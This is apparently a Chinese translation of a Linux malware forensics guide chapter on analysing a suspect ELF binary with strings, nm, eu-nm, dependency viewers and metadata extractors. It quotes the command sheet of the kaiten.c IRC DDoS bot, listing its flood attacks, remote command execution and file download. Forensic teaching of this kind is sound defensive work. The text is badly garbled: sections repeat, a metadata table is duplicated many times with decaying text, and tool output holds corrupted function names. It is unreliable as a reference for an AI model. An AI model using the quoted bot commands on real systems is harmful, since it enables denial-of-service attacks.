- 要更改字符串的最小长度，请使用 `-n` 选项。同样，要提取 ASCII 以外的编码（如 Unicode），请应用 `-e` 选项并使用所需编码的相应参数。

- 在检查可疑标本的过程中，始终要使用“all” (`-a`) 选项，这将导致文件实用扫描并显示可打印字符串，如图 5.21 所示。

- 在搜索字符串时，请注意功能指示器，或作为程序能力指示的文本引用。

### LINUX 系统恶意软件取证现场指南

```bash
lab@MalwareLab:~/home/malwarelab/Malware Repository$ strings -a sysfile | more
/lib/ld-linux.so.2
libc.so.2
strcpy
waitpid
ioctl
sprintf
recv
connect
atol
getpid
fgetats
memcmpy
pclose
fof
malloc
sleep
socket
select
popenen
accept
write
kill
---
```

图 5.21—使用 `strings` 检查可疑执行文件

- 此外，`strings` 可能会揭示用于编译可疑执行文件的编译器版本，如图 5.22 所示。诸如归属标识符或证明识别恶意软件作者（或贡献作者）的性产物等线索。在没有进一步线索或上下文的情况下，它可能并不显著，但与其他线索结合使用，它可以进一步识别攻击者制作该文件时使用的平台。

```bash
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
```

图 5.22—识别用于编译可疑执行文件的 GCC 编译器版本

## 调查考虑量

- 建议使用 `less` 或 `more` 文件分页选项，因为查询输出可能会在终端窗口中滚动几页。或者，考虑将输出重定向到文件；这通常使用 `>` 符号（如图 5.23 所示）或 `>>` 向文件追加内容来实现。

```bash
lab@MalwareLab:~/home/malwarelab/Malware Repository$ strings -a sysfile > strings-sysfile.txt
```

图 5.23—将输出重定向到文件

## 检查文件依赖：动态链接或静态链接

- 在对可疑程序的初步分析期间，只需识别文件是静态还是动态链接执行文件，就能为程序的功能提供早期指导，并对稍后在其执行期间发出的系统调用进行动态分析时有所预期。

- 正如本书引言所述，动态链接的执行文件依赖于调用驻留在主机系统内存中的共享库或公共库及函数来成功执行。为了实现这一点，动态链接器会在需要时加载并链接这些库。动态链接执行文件执行所需的所需的共享库和代码被称为依赖项。

- 相反，静态链接不需要依赖项，包含了程序成功执行所需的所有代码和库。

- 区分这些者可以了解程序的功能，并对稍后在其执行期间发出的系统调用进行动态分析时有所预期。动态链接的执行文件依赖于调用驻留在主机系统内存中的共享库或公共库及函数来成功执行。为了实现这一点，动态链接器会在需要时加载并链接这些库。动态链接执行文件执行所需的所需的共享库和代码被称为依赖项。

- 相反，静态链接不需要依赖项，包含了程序成功执行所需的所有代码和库。


## 第 5 章：文件识别与分析

### 动态链接与静态链接

- 区分动态链接与静态链接可以了解程序的功能，并对稍后在其执行期间发出的系统调用进行动态分析时有所预期。动态链接的执行文件依赖于调用驻留在主机系统内存中的共享库或公共库及函数来成功执行。为了实现这一点，动态链接器会在需要时加载并链接这些库。动态链接执行文件执行所需的共享库和代码被称为依赖项。

- 相反，静态链接不需要依赖项，包含了程序成功执行所需的所有代码和库。

### 嵌入字符串分析

- IRC 通道：通常，用于互联网中继聊天（IRC）命令和控制服务器的通道服务器和名称会被编码在影响机器的恶意软件中。事实上，可疑文件可能会为了冗余目的而引用 IRC 通道，以防某个通道丢失或另一个通道上线时使用。

- 程序命令或选项：大多数情况下，攻击者需要与其传播的恶意软件进行交互，通常是为了提高传播方法的有效性。某些较旧版本的变体使用即时消息（IM）程序作为攻击向量，因此，调用 IM 传播的命令可能位于程序的字符串中，命令行选项和/或帮助/用法菜单信息中，这些信息可能会揭示目标标本的能力。

- 错误和确认消息：在恶意软件标本中发现的确认和错误消息，例如 `Exploit FTPD is running on: %i, at thread number: %i; total sends: %i`；往往具有重要意义，并能对恶意软件的能力提供深入的洞察。

#### 分析提示

虚假线索：`植入` 字符串

尽管嵌入字符串在分析可疑标本时可能具有潜在价值，但请注意攻击者和恶意软件作者会在代码中提供`植入`字符串以引导调查人员。虚假昵称、电子邮件地址和域名的实例相当常见。在检查任何给定标本并评估其嵌入字符串的意义时，请记住考虑文件的整个上下文和数字犯罪现场。

### 分析嵌入字符串的工具

- Linux 和 UNIX 发行版通常预装了 `strings` 工具，该工具可以显示文件中可打印字符的字符串。

- 默认情况下，`strings` 将显示从文件中初始化并加载的长度小于四个字符的 ASCII 文本序列，可以通过命令行选项进行修改。

- 要更改字符串的最小长度，请使用 `-n` 选项。同样，要提取 ASCII 以外的编码（如 Unicode），请应用 `-e` 选项并使用所需编码的相应参数。

- 在检查可疑标本的过程中，始终要使用 `all` `-a` 选项，这将导致文件实用扫描并显示可打印字符串，如图 5.21 所示。

- 在搜索字符串时，请注意功能指示器，或作为程序能力指示的文本引用。

#### Linux 系统恶意软件取证现场指南

```bash
lab@MalwareLab:~/home/malwarelab/Malware Repository$ strings -a sysfile | more
/lib/ld-linux.so.2
libc.so.2
strcpy
waitpid
ioctl
sprintf
recv
connect
atol
getpid
fgetats
memcmpy
pclose
fof
malloc
sleep
socket
select
popenen
accept
write
kill
---
```

图 5.21—使用 `strings` 检查可疑执行文件

- 此外，`strings` 可能会揭示用于编译可疑执行文件的编译器版本，如图 5.22 所示。诸如归属标识符或证明识别恶意软件作者的线索。在没有进一步线索或上下文的情况下，它可能并不显著，但与其他线索结合使用，它可以进一步识别攻击者制作该文件时使用的平台。

```bash
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
GCC: (GNU) 4.4.5 20110324 (Ubuntu/Linaro 4.4.4-14ubuntu5)
```

图 5.22—识别用于编译可疑执行文件的 GCC 编译器版本

### 调查考虑量

- 建议使用 `less` 或 `more` 文件分页选项，因为查询输出可能会在终端窗口中滚动几页。或者，考虑将输出重定向到文件；这通常使用 `>` 符号（如图 5.23 所示）或 `>>` 向文件追加内容来实现。

```bash
lab@MalwareLab:~/home/malwarelab/Malware Repository$ strings -a sysfile > strings-sysfile.txt
```

图 5.23—将输出重定向到文件

### 检查文件依赖：动态链接或静态链接

- 在对可疑程序的初步分析期间，只需识别文件是静态还是动态链接执行文件，就能为程序的功能提供早期指导，并对稍后在其执行期间发出的系统调用进行动态分析时有所预期。

- 正如本书引言所述，动态链接的执行文件依赖于调用驻留在主机系统内存中的共享库或公共库及函数来成功执行。为了实现这一点，动态链接器会在需要时加载并链接这些库。动态链接执行文件执行所需的共享库和代码被称为依赖项。

- 相反，静态链接不需要依赖项，包含了程序成功执行所需的所有代码和库。

- 区分这些者可以了解程序的功能，并对稍后在其执行期间发出的系统调用进行动态分析时有所预期。

### 在线资源

**参考页面**

通常在检查字符串、共享库和系统调用引用等嵌入实体时，拥有参考网站进行快速查阅是非常方便的。考虑下载一份 GNU C Library 副本以便快速方便地参考（http://www.gnu.org/software/libc/#Overview 或 http://ftp.gnu.org/gnu/libc/），或访问 GNU.org 上的 GNU C 参考文档（http://www.gnu.org/software/libc/manual/html_node/index.html）。同样，Open Group 的函数索引也是一个实用的参考工具（http://www.opengroup.org/onlineinepubs/009695399/idx/index.html）。

- 在响应证据支持可能发生过上述情况的事件期间，在可行的情况下，最佳行动方案是：

  - 获取受害者硬盘的取证镜像，如第 3 节所述；
  - 利用第 3 节涵盖的制品发现，识别可能受影响的共享对象/ELF 动态链接器/加载器；
  - 使用本章之前介绍的工具和技术，获取共享对象/ELF 动态链接器/加载器的哈希值，以便后续与未修改的未知版本进行对比。

### GUI 文件依赖分析工具

- 如果你倾向于使用 GUI 工具检查文件依赖关系，Filippos Papadopoulos 和 David Sandbox 开发了 Visual Dependency Walker（也称为 Vis-ld），它能够让调查人员获取目标文件共享库的细粒视角，如图 5.26 所示。

- 与 `lld` 不同，Visual Dependency Walker 为二进制可执行文件中所有的模块构建图形化分级树，允许调查人员深入识别依赖项需要并调用的文件，如图 5.26 所示。

- 许多好奇的分析师都会使用像 Visual Dependency Walker 这样的分级分析工具，因为工具输出提供了视角。因此，开发并发布了三个与 Visual Dependency Walker 相似且感觉类似的工具：ELF Library Viewer、ELF Dependency Walker 以及 DepSpec Dependency Viewer，它们在本章末尾的工具箱中进行了更详细的解释。

有关 Visual Dependency Walker（也称为 Vis-ld）的更多信息，请访问 http://freshmeat.net/projects/visual-lld/。

有关 ELF Library Viewer 的更多信息，请访问 http://www.purinchu.net/wp/2007/10/24/elf-library-dependency-viewer/。

**图 5.26**——使用 Visual Dependency Walker 检查怀疑文件

- DepSpec Dependency Viewer 具有双界面，允许探索文件依赖关系以及相关的符号信息，如图 5.27 所示。

**图 5.27**——使用 DepSpec 检查怀疑文件

在获取怀疑文件依赖关系的总体概览后，通过查找文件中可能存在的任何符号和调试信息来继续检查该程序。

有关 ELF Dependency Walker 的更多信息，请访问 http://code.google.com/p/elf-dependency-walker/。

有关 DepSpec 的更多信息，请访问 http://wiki.gpio.ca/wiki/DepSpec。

### 分析技巧

Solaris 系统上的 ELF 二进制分析

我们从一些网络和安全管理员那里听到：`是的，但 Solaris 与 Linux 不同。`操作系统确实不同，但在用于分析 ELF 二进制可执行文件的工具和技术上存在一些共同点。尽管如此，某些工具可以在 Solaris UNIX 中实现，而这些工具在 Linux 系统上并不原生可用。以下是 Solaris 平台中可用于进行分析的某些工具。

- `PVS` 显示动态对象的内部版本信息。
- `Elldump` 导出 ELF 文件的部分。
- `Ldd` 列出执行文件或共享对象的依赖。
- `File` 识别文件类型。
- `Dump` 导出对象部分（类似于 Linux 的 `objdump`）。
- `Strings` 查找对象或二进制文件中的可打印字符串。
- `Nm` 输出对象文件。
- `pdb` 通用调试器（类似于 Linux 的 `gdb`）。

### 符号与调试信息

执行文件被编译和链接的方式留下了关于怀疑程序性质和能力的重大线索。

正如本章讨论的，执行文件被攻击者编译和链接的许多方式可能会留下关于怀疑程序性质和能力的重大线索。例如，攻击者不会剥离 ELF 执行文件的变量和函数名（作为符号，位于执行文件的符号表中），数字调查人员可能借此了解程序的程序。同样，如果程序在开发阶段以调试模式编译以协助故障排除，它将提供额外信息，如源代码和调试行。

- 大多数 Linux 操作系统发行版都带有 `nm` 工具。

- 要显示怀疑二进制文件的符号，对其执行 `nm -al` 命令，它将显示所有符号，包括调试器（通常不列出）以及任何相关的调试数字（图 5.28）。

```
lab@Malware:~/home/malware$ nm -al sysfile
0804d30b b .bss
00000000 n .comment
0804d41 d .ctors
0804a000 d .data
00000000 N .debug_abbrev
00000000 N .debug_arr
00000000 N .debug_frame
00000000 N .debug_info
00000000 N .debug_line
00000000 N .debug_ptr
00000000 N .debug_str
0804dfd0 d .dtors
0804a120 d .dynamic
0804a863 r .dynsym
0804a828 r .dynym
0804c3f4 m .eh_sym
0804c3f9 r .fin
0804a7f5 r .gnu.version
0804a866 r .gnu_version_
0804d12c d .got
0804a128 d .hash
0804a418 n .init
0804e0f6 e .interp
0804a11 d .ljr
08048108 N .note.ABI-tag
0804a6e4 t .plt
0804b89e r .rel.dyn
0804b89c r .rel.plt
0804e6b0 r .rodata
00000000 a .shrtab
00000000 a .strtab
00000000 .symtab
0804a66d t .text
0804d860 B execute
U exit@@GLIBC_2.0
U fclose@@GLIBC_2.1
U feof@@GLIBC_2.0
U fgets@@GLIBC_2.0
08049141 T filters
U fopen@@GLIBC_2.0
U forctl@@GLIBC_2.0
U fputc@@GLIBC_2.0
0804ae58 t frame_dummy
U free@@GLIBC_2.0
080495f4 d data
U gethostname@@GLIBC_2.0
U getpid@@GLIBC_2.0
U getppid@@GLIBC_2.0
080490de T getspspof
U getspspof@@GLIBC_2.0
0804a9e7 T help
0804aeae4 T host2ip
08049e7b U htons@@GLIBC_2.0
```

图 5-28-`nm -al` 命令解析怀疑的 ELF 文件。

`-a` 选项的替代方案是 `--debug-syms`，它可以实现相同的结果。

如图 5.28 所示，输出揭示了大量的符号信息，其中某些信息可能有助于了解程序的性质和目的。

- 输出的左侧列识别相应符号的十六进制值，随后是符号类型，然后是符号名称。

- 记住，小写符号类型是局部变量，而大写符号是全局变量。

#### 分析技巧

```
Break,enter...compile
```

- 在检查 `nm` 输出时，注意引用以下内容：

- ELF 段
- 函数调用
- 攻击命令
- 用于创建程序的编译器类型和版本

对于解析怀疑文件中符号信息的替代查看方法，请考虑使用 `nm` 工具（`elfutils` 工具套的一部分），它为分析提供了更具结构化的输出，包括符号名、值、类、类型、大小、行号和 ELF 段的指定和列出。

可以通过 `nm` 和 `eu-nm` 工具中提供的额外命令，从恶意二进制文件中收集更多的符号信息。通过这种方式，数字调查人员可以在特定的上下文中查看符号内容。要显示特殊符号（或具有目标特定含义且在包含正常符号列表中通常没有帮助的符号），请应用 `--special-sym` 选项（图 5.29）。

### Linux系统恶意软件取证指南

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ nm --special-syms ysfile
08048af T send
0804b367 T _352
0804b2f3 T _376
08040659 T _433
0804d420 D DYNAMIC
0804fc D GLOBAL_OFFSET_TABLE
0804be84 R _std_used
      J_RegisterClasses
0804b58c T _NICK
08040399 T _PRIMMSG
0804a6b3 T _
0804dlec D CTSTOR_END
0804d1e8 D CTSTOR_LIST
0804d1fd D DTOR_HDR
0804d1f0 D DTOR_LIST
0804c34 R EH_FRAME_BEGIN
0804c7f9 R _FRAME_END
0804d1f8 D JCR_END
0804d1f9 D JCR_LIST
080408e6 A _beg_start
0804d000 D data_start
      do_global_dtors_aux
0804e440 t to_global_dtors_aux
0804d004 D dso_handle
      u _errno_location@GLIBC_2.0
0804d000 A _fini_array_end
w      _fini_array_end
0804d000 A _init_array_end
0804be0c T libc_csu_fini
0804bdcc T libc_csu_init
      u _libc_main@GLIBC_2.0
0804d2e6 A _edata
0804a379 T _send
0804be64 T _fini
0804be80 R _init
0804b8d4 T _start
      u accept@GLIBC_2.0
      u atoi@GLIBC_2.0
      u atol@GLIBC_2.0
      u bcopy@GLIBC_2.0
      u bind@GLIBC_2.0
0804d8f8 t call_gmon_start
0804d968 B chan
0804d030 D changeserver
      u close@GLIBC_2.0
<edited for brevity>
```

图 5.29—使用 `nm --special-syms` 命令


- 此输出中的符号引用揭示了诸如许多 IRC 协议命令（如在请求评论 (RFC) 1459,43, 2810,44, 2811,45, 2812,46 和 2813,47 中确定的）：

43 有关与互联网中继聊天（Internet Relay Chat）的 RFC 1459 的信息，请访问 http://www.irchelp.org/irchelp/rfc/rfc.html。

44 有关 RFC 2810 的信息，请访问 http://www.rfc-base.org/txt/rfc-2810.txt。

45 有关 RFC 2811 的信息，请访问 http://www.rfc-base.org/txt/rfc-2811.txt。

46 有关 RFC 2812 的信息，请访问 http://www.rfc-base.org/txt/rfc-2812.txt。

47 有关 RFC 2813 的信息，请访问 http://www.rfc-base.org/txt/rfc-2813.txt。

# 第 5 章 文件识别与特征分析

`lab@MalwareLab:~/home/malwarelab/Malware Repository$ eu-nm -D dsfile`

来自 myfile 的符号：

| 名称 | 值 | 类 | 类型 | 大小 | 行段段 |
| --- | --- | --- | --- | --- | --- |
| _Iq_std_used | 00000000 | LOCAL | NOTYPE | 0 | UNDEF |
| _errno_no | 08084b84 | LOCAL | OBJECT | 4 | init.c:25.rodata |
| gmon_start | 08084b34 | GLOBAL | FUNCTION | 39 | UNDEF |
| libc_start | 00000000 | WEAK | NOTYPE | 0 | UNDEF |
| accept | 08084c44 | GLOBAL | FUNCTION | fb | |
| atol | 08084b84 | GLOBAL | FUNCTION | 78 | UNDEF |
| bcopy | 0808aa74 | GLOBAL | FUNCTION | 2d | UNDEF |
| close | 08084e24 | GLOBAL | FUNCTION | 88 | UNDEF |
| connect | 08084c74 | GLOBAL | FUNCTION | 39 | UNDEF |
| exit | 08084d34 | GLOBAL | FUNCTION | 71 | UNDEF |
| fclose | 08084c84 | GLOBAL | FUNCTION | d9 | UNDEF |
| feof | 08084e94 | GLOBAL | FUNCTION | 18 | UNDEF |
| fopen | 08084b44 | GLOBAL | FUNCTION | 6d | UNDEF |
| fork | 08084d54 | GLOBAL | FUNCTION | 153 | UNDEF |
| fputc | 08084e54 | GLOBAL | FUNCTION | 35 | UNDEF |
| free | 08084f24 | GLOBAL | FUNCTION | 5a | UNDEF |
| gethostname | 080848c4 | GLOBAL | FUNCTION | f1 | UNDEF |
| getid | 08084b84 | GLOBAL | FUNCTION | b9 | UNDEF |
| getpid | 08084b84 | GLOBAL | FUNCTION | 2a | UNDEF |
| htons | 08084d14 | GLOBAL | FUNCTION | 2e | UNDEF |
| inet_addr | 08084c24 | GLOBAL | FUNCTION | e | UNDEF |
| inet_network | 08084e24 | GLOBAL | FUNCTION | 377 | UNDEF |
| kill | 08084a04 | GLOBAL | FUNCTION | l1 | UNDEF |
| ioctl | 08084d04 | GLOBAL | FUNCTION |3c | UNDEF |
| listen | 08084d74 | GLOBAL | FUNCTION | a | UNDEF |
| malloc | 08084b64 | GLOBAL | FUNCTION | 39 | UNDEF |
| memset | 08084b84 | GLOBAL | FUNCTION | lb4 | UNDEF |
| memcpy | 08084d84 | GLOBAL | FUNCTION | 27 | UNDEF |
| ntol | 08084d24 | GLOBAL | FUNCTION | 43 | UNDEF |
| pclose | 08084a84 | GLOBAL | FUNCTION | 48 | UNDEF |
| popen | 08084b54 | GLOBAL | FUNCTION | 26 | UNDEF |
| rand | 08084d04 | GLOBAL | FUNCTION | b4 | UNDEF |
| recv | 08084a84 | GLOBAL | FUNCTION | 20 | UNDEF |
| select | 08084b84 | GLOBAL | FUNCTION | 78 | UNDEF |
| sendto | 08084b94 | GLOBAL | FUNCTION | 941 | UNDEF |
| setsockopt | 08084b44 | GLOBAL | FUNCTION | 78 | UNDEF |
| sleep | 08084f24 | GLOBAL | FUNCTION | 39 | UNDEF |
| socket | 08084da4 | GLOBAL | FUNCTION | 201 | UNDEF |

```
<edited for brevity>
```

图 5.30—使用 `eu-nm` 命令引用 `GLIBC_2.0`，揭示该样本极可能是用 C 语言编写的。

- 如果调查过程显示二进制文件是动态链接的，可以使用 `-o` 选项获取特定动态链接的符号信息，称为动态符号（`nm` 和 `eu-nm` 均可用；见图 5.30）。

# Linux系统恶意软件取证指南

- 我们的查询输出显示了引用许多调用的符号，其中许多涉及网络连接和进程创建。正如我们之前讨论字符串时提到的，考虑查询从分析中挖掘的函数调用名称以识别函数的用途。

- 在调查恶意程序的动态符号时，考虑应用 `--demangle` 选项，它会将低级符号名称解码（还原）为用户级名称。这通过移除系统前缀下划线，使输出（包括 C++ 函数名）更具可读性。

- 此外，通过调用 `nm` 或 `eu-nm` 的 `--extern-only` 选项解析二进制文件的外部符号。外部符号是符号包（另一种描述建立符号映射的数据结构的方式）对其他包公开的影响。

- 由 John Floyd 开发，它是 Object Viewer 和 `eu-nm` 非常实 GUI 替代方案，用于查询目标文件的符号信息。如图 5.31 所示。Object Viewer 特别有用，因为它为数字调查员提供了直观的符号信息图形，包括十六进制值、大小、符号类型、符号类、调试行信息、段段信息和符号名称等指定字段。*符号类型*将符号识别为文件、段、函数或对象，而*符号类*则识别符号是局部变量还是全局变量以及符号的用途，如图 5.2 所示。

| 值 | 大小 | 类型 | 类 | 行 | 名称 |
|---|---|---|---|---|---|
| 0000000000000000 | | FILE | a | *ABGS* | __init_ |
| 0000000000000000 | | FILE | a | *ABGS* | katrick |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | FILE | a | *ABGS* | _libc_start_main_229343 |
| 0000000000000000 | | |

图 5.31—使用 Object Viewer 解析示例文件中的符号引用

> 48 有关 Object Viewer 的更多信息，请访问 http://paulf.free.fr/objectviewer。

图 5.32—使用 lida 查看可疑文件中的符号引用

> 49 有关 Linux 动态反汇器 (`lida`) 的更多信息，请访问 http://lida.sourceforge.net/.

50 有关 Gedit 符号浏览器插件的更多信息，请访问 http://www.micahcarrick.com/11-14-2007/gedit-symbol-browser-plugin.html。注意，该插件并不解析二进制执行文件，而是解析源代码。

# LINUX 系统恶意软件取证领域指南

292

## 分析提示：上接

在调查中利用符号引用

```
/*
kaiten 1,060,000 结果 (0.11 秒)
*/*/
```

约 1,060,000 个结果

`Kaiten.c` - 文件 = Packet Storm

packetstormsecurity.org/kaiten

`kaiten.c` - 发布于 2001 年 12 月 27 日 - 由 conment 编写。`Kaiten.c` 是一个基于 IRC 的 DDoS 客户端。MDS | 74d3af6a72cf66f1dcc33c4fe357d: 下载 | 收藏 ... 

`Kaiten.c` = Packet Storm

packetstormsecurity.org/2575/kaiten.c

2001年12月27日 – `kaiten.c`。更改镜像。下载。

******************************************** 这是一个基于 IRC 的分布式 ...

我们在分析机上下载了代码的副本进行探测。

幸运的是，该代码方便地附带了一个命令备忘表，这让我们对程序的潜在能力有了深入的见解：

- * 这是一个基于 IRC 的分布式拒绝服务客户端。它连接到指定的服务器并通过指定的通道接受命令。

- 语法为：

- `<nick> <command>`

- 你将此消息发送到代码后文定义的通道，其中 `<nick>` 是客户端的昵称（可以包含通配符），`command` 是将发送的内容。例如，如果你想让所有以 N 开头的昵称的客户端发送 HELP

- 你会发送所有命令列表吗？你也可以单独指定别名来查找特定命令：

- `SH uname=<name>`

- 有许多可以发送到如下的命令：

- `TSUNAME=<command> = PUSH+ACK` 洪水攻击器

- `PAN <target> <port> = SYN` 洪水攻击器

- `UDP <target> <port> = Udp` 洪水攻击器

- `UNKNOWN=<command> =` 另一个非伪造 udp 洪水攻击器

- `NICK <nick> =` 更改客户端的昵称

- `SERVER =` 获取当前的泛洪

- `SPROOF <subset> =` 获取到子集的伪造情况

- `DISABLE =` 禁用此机器的泛洪

- `ENABLE =` 启用此机器的泛洪

- `KILL =` 停止此泛洪

- `GET http://<save as> =` 从网络下载文件

- `VERSION` 返回版本

- `KILLALL =` 杀死所有泛洪

- `HELP =` 显示此

- `IR <command> =` 将此命令发送到服务器

- `SH <command> =` 执行命令

- 记住所有这些命令必须由你发送；以及你希望命令发送到的昵称（可以包含通配符）。! 和昵称之间没有空格，冒号之前没有空格

# 章节 | 5章 文件识别与特征分析

293

## 分析提示：上接 

在调查中利用符号引用

为了确认下载的代码与图 5.31 中检查的恶意标本以及 `kaiten.c` 代码之间的相似性，你可以进行许多工作，包括反编译敌恶的二进制文件以尝试提取源代码，或者在二进制可执行文件格式下将 `kaiten.c` 与我们的恶意标本进行比较，包括我们之前解释过的某些技术，例如模糊哈希（fuzz hashing）。此外，作为非常粗略的比较，你可以使用杀毒程序扫描 `kaiten.c`，并将其签名与我们的恶意标本的签名进行对比。虽然杀毒程序的签名匹配并不能确认两个标本是完全相同的，但它为该恶意文件的身份和可能的来源提供了一些见解。

## 嵌入式文件元数据

- * 除了嵌入字符串和符号信息外，可执行文件可能在其文件元数据中包含有价值的语句。

- * 元数据（metadata）一词是指关于数据的信息。在取证语境下，有关元数据的讨论通常集中在可以从文档文件中提取的信息，例如用 Microsoft Office 应用创建的文件。元数据可能会揭示文档的作者、修订次数以及关于文件的通常不会显示的私有信息。

- 元数据存在于可执行文件中，通常这些数据可以就文件的来源、目的或功能提供宝贵的见解。

- 在可执行文件语境下，元数据并不揭示与文件内容相关的技术信息，而是关于文件的来源、所有权和历史。在可执行文件中，可以通过多种方式识别元数据。

- 要创建一个二进制可执行文件，必须将高级编程语言编译成对象文件，然后与任何所需的库和额外的对象代码链接。

- 仅从这一过程来看，二进制文件中留下了许多潜在的元数据足迹，包括编写程序的高级语言、用于编译代码的编译器和链接器的类型及版本，对于 ELF 可执行文件，可能还有与可执行文件编译时间的时间上下文。51

51 Windows 可移植执行文件（PE）的编译时间存储在文件的 `IMAGE_FILE_HEADER` 结构中。遗憾的是，ELF 文件没有默认的功能结构来明确显示编译时间。

# Linux 系统恶意软件取证领域指南

- * 除了这些信息，ELF 程序中可能存在其他元数据，例如：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 除了这些信息，ELF 程序中可能存在其他元数据，例如：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 元数据一词是指关于数据的信息……ELF 程序中可能存在的元数据，例如： 

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 除了这些信息，ELF 程序中可能存在其他元数据，例如：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 元数据一词是指关于数据数据，数据可能中元数据， |：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 元数据一词是指关于数据的信息……ELF 程序中元元，，：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
|   | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- * 除了这些信息，ELF 程序中可能存在其他元数据，例如：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |


| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- *元数据一词是指关于数据的信息……ELF 程序中可能存在的元数据，例如：

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |

- *元数据一词是指关于数据…… 5.33—使用 `exiftool` 从一个 ELF 文件获取元数据。

| 元数据构件 | |
| :--- | :--- |
| 程序 | |
| 操作系统 | |
| 对象类型 | |
| 控制台 | |
| 文件 | |
| 日期 | |
| 版本 | |
| 作者 | |
| 许可证 | |
| 主题 | |
| 注释 | |
| 语言 | |
| 日期 | |
| ExifTool 版本号 | 789 |
| 文件名 | imod |
| 目录 | |
| 文件大小 | 49 kB |
| 文件日期/时间 | 2010:05:28 04:20:51-04 |
| 文件类型 | ELF 可执行文件 |
| MIME 类型 | application/octet-stream |
| CPU 架构 | 32 bit |
| CPU 字节序 | little endian |
| 对象类型 | 可执行文件 |
| CPU 类型 | 1386 |

- * CPU 架构

- MIME 类型

- * 数字取证人员通过对可疑文件运行 `extract` 工具，可能会获取额外的上下文并挖掘目标元数据。53 `extract` 是 `libextractor` 库/项目的一部分，是一个强大的元数据工具。54

- 数字 `extract` 和 `libextractor` 均采用通用公共许可证许可，其目标是作为多种文件的通用数据提取和分析工具。

- 目前 `libextractor` 可以解析 20 种格式的元数据，包括 HTML, PDF, PS, OLE2 (`DOC`, `XLS`, `XPT`), OpenOffice (`oxw`), StarOffice (`sdw`), DVI, MAN, FLAC, MP3, NSF (NES 音格式), SID, OOG, WAV, EXIV2, JPEG, GIF, PNG, TIFF, DEB, RPM, ZIP, ELF, FLV, REAL (RIFF), MPEG, QT, 以及 TAR。

- 为了从许多文件类型中提取信息，`extract` 使用插件架构，为许多文件格式提供了特定的解析器插件。插件算法也允许用户为新格式集成插件。

- 类似于 `file` 工具，在查询目标文件时，`extract` 会验证目标文件的头部以分类文件类型。一旦识别出格式，相应的特定格式解析器会将文件内容与关键字库进行比较，以挖掘文件元数据。

## Linux 系统恶意软件取证领域指南

- 收集从插件获取的元数据，并提供发现的元数据与其相应分类的对应列表。除了支持的插件外，`libextractor` 还允许用户编写并集成新的文件格式。

- `extract` 的另一个有用功能是它不仅限于英语，这对于恶意软件调查特别有用，因为可疑程序的源地可能来自世界任何地方。

- 要在 `extract` 中应用语言功能，请使用“B-LANG”选项，并从支持的语言插件中选择，包括丹麦语 (`da`)、德语 (`de`)、英语 (`en`)、西班牙语 (`es`)、意大利语 (`it`) 和挪威语 (`no`)。该工具尝试通过将目标文件中的字符串与特定语言字典进行匹配，来识别目标文件中的明文。

- 使用 `extract` 配合详细 (`-V`) 选项检查可疑 ELF 文件，可以如图 5.34 所示的输出。

